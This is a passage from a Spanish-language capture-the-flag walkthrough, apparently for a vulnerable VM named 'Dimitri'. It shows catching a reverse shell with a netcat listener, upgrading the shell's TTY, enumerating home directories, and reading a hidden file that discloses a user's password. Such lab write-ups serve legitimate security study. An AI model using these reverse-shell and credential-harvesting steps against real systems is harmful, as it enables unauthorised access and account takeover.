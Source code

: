 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.94] from (UNKNOWN) [192.168.1.152] 53252
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Tratamiento de la `tty`

```bash
$ script /dev/null -c bash
www-data@Dimitri:/var/www/html/vworkshop/kgbbackdoor$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo fg;
					reset xterm
ENTER
www-data@Dimitri:/var/www/html/vworkshop/kgbbackdoor$ export TERM=xterm
www-data@Dimitri:/var/www/html/vworkshop/kgbbackdoor$ export SHELL=bash
```

```bash
www-data@Dimitri:/home$ ls -l
total 8
drwxr-xr-x 4 dimitri dimitri 4096 Nov 16  2017 dimitri
dr-xr-xr-x 4 nicky   nicky   4096 Nov  6  2017 nicky
www-data@Dimitri:/home$ 
```

Hay un `.Secret`

```bash
www-data@Dimitri:/home$ find . 2>/dev/null
.
./nicky
./nicky/ftp
./nicky/ftp/ImpFiles
./nicky/ftp/ImpFiles/IMP.txt
./nicky/.bashrc
./nicky/.profile
./nicky/.bash_logout
./nicky/.cache
./dimitri
./dimitri/mail
./dimitri/.bashrc
./dimitri/.bash_history
./dimitri/.cache
./.Mylife
./.Mylife/.Secret
www-data@Dimitri:/home$ 
```

Bueno nos da la contraseña `DimitryHateApple` y nos dice que trabajo en la `CIA` pero que no le gusta vender drogras ni armas y que va a renunciar

```bash
www-data@Dimitri:/home$ cat ./.Mylife/.Secret
I have been working on this CIA BlackMarket Project but it seems like I am not doing anything 
right for people. Selling drugs and guns is not my business so soon I will quit the job. 

About my personal life I am a sharp shooter have two kids but my wife don't like me and I am broke. Food wise I eat everything but DimitryHateApple

I will add more about later! 


 
www-data@Dimitri:/home$ 
```